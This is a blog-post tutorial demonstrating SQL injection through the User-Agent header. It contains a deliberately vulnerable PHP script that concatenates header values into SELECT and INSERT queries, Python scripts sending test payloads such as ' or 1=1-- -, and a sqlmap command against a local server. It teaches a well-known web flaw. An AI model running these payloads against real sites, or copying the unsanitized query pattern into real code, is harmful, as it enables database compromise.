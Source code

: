 ```yaml
---
layout: post
title:  "SQL Injection Through HTTP Header"
date:   2018-04-02 08:48:58 +1000
categories: hacking
---
```

Hello, world! In this article I am going to show you, how to exploit [SQL injection](https://en.wikipedia.org/wiki/SQL_injection) through HTTP request header


> ###### What is SQL injection?
SQL Injection (SQLi) refers to an injection attack wherein an attacker can execute malicious SQL statements (also commonly referred to as a malicious payload) that control a web application's database server (also commonly referred to as a Relational Database Management System – RDBMS).

To demonstrate this attack, I already wrote a vulnerable `PHP` script. Which allows me to do [SQL injection](https://en.wikipedia.org/wiki/SQL_injection) through `User-Agent`. It doesn't have to be the `User-Agent`, it could be any header in the request.

{% highlight php %}
<?php 
	
	$data = array(
		"user-agent" => $_SERVER['HTTP_USER_AGENT'],
		"ip" => $_SERVER['REMOTE_ADDR']
	);

	$link = mysqli_connect("localhost", "root", "", "suyambu");
	if (!$link) {
		echo "Error: Unable to connect to MySQL." . PHP_EOL;
		echo "Debugging errno: " . mysqli_connect_errno() . PHP_EOL;
		echo "Debugging error: " . mysqli_connect_error() . PHP_EOL;
		exit;
	}
	$get_result = mysqli_query($link, "SELECT * FROM user_agent WHERE ip='" . $data["ip"] . "' AND agent='" . $data["user-agent"] . "'");
	if (mysqli_num_rows($get_result) == 0) {
		mysqli_query($link, "INSERT INTO user_agent (ip, agent, is_active) VALUES ('" . $data["ip"] . "', '" . $data["user-agent"] . "', 1)");
	}

	mysqli_close($link);
	echo json_encode($data);

?>
{% endhighlight %}

<script async src="//pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-4793783684558224"
     data-ad-slot="5716606909"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

The script is simply getting the user `IP` and `User-Agent` then storing it in the [database](https://en.wikipedia.org/wiki/Database). If you noticed there are two mistakes (**vulnerable**) in the script

**1. Unfiltered value in fetch data from database**

{% highlight php %}
$get_result = mysqli_query($link, "SELECT * FROM user_agent WHERE ip='" . $data["ip"] . "' AND agent='" . $data["user-agent"] . "'");
{% endhighlight %}

**2. Unfiltered value in storing data to database**

{% highlight php %}
mysqli_query($link, "INSERT INTO user_agent (ip, agent, is_active) VALUES ('" . $data["ip"] . "', '" . $data["user-agent"] . "', 1)");
{% endhighlight %}

## Checking Vulnerability Using Python

I am going to launch a local [Apache](https://en.wikipedia.org/wiki/Apache) server to test the vulnerability and also I am using Python to send the `HTTP` request.

> There is a [Firefox](https://www.mozilla.org/en-US/firefox/new/) browser extension call [Tamper Data](https://addons.mozilla.org/en-US/firefox/addon/tamper-data/), you can also use this extention to tamper `HTTP` request headers.

{% highlight python %}
import requests


def main():
	res = requests.get("http://192.168.43.229/user-agent/", headers={
		"User-Agent": "'"
	})

	print(res.text)


if __name__ == "__main__":
	main()
{% endhighlight %}

<script async src="//pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-4793783684558224"
     data-ad-slot="5716606909"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

> I forgot to tell you, I am testing this vulnerability with `Error Base SQL Injection` in mind, if the application has `Blind SQL Injection` or any other type then you can skip this step.

If you run the script, you will see a SQL error on your response.

{% highlight html %}
<br />
<b>Warning</b>:  mysqli_num_rows() expects parameter 1 to be mysqli_result, boolean given in <b>/opt/lampp/htdocs/user-agent/index.php</b> on line <b>16</b><br />
{"user-agent":"'","ip":"192.168.43.229"}
{% endhighlight %}

Now to confirm it's vulnerable, I am going to send the following payload in `User-Agent`

{% highlight python %}
import requests


def main():
	res = requests.get("http://192.168.43.229/user-agent/", headers={
		"User-Agent": "' or 1=1-- -"
	})

	print(res.text)


if __name__ == "__main__":
	main()
{% endhighlight %}

If you don't get any error then the application is vulnerable to [SQL injection](https://en.wikipedia.org/wiki/SQL_injection). Now you can exploit the server with any automated [SQL injection](https://en.wikipedia.org/wiki/SQL_injection) tools or you can exploit it by sending self constructed queries.

# Exploit Using SQLMap

To exploit the application through `User-Agent` with [SQLMap](https://en.wikipedia.org/wiki/Sqlmap) you can use the following command.

<script async src="//pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-4793783684558224"
     data-ad-slot="5716606909"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

{% highlight bash %}
$ sqlmap -u http://192.168.43.229/user-agent -p "User-Agent"
{% endhighlight %}

<img src="https://preview.ibb.co/cLABhH/Screenshot_from_2018_04_03_09_15_02.png" alt="Screenshot_from_2018_04_03_09_15_02" border="0">

# Demonstration

<iframe width="560" height="315" src="https://www.youtube.com/embed/ptvRPEBlIqM" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>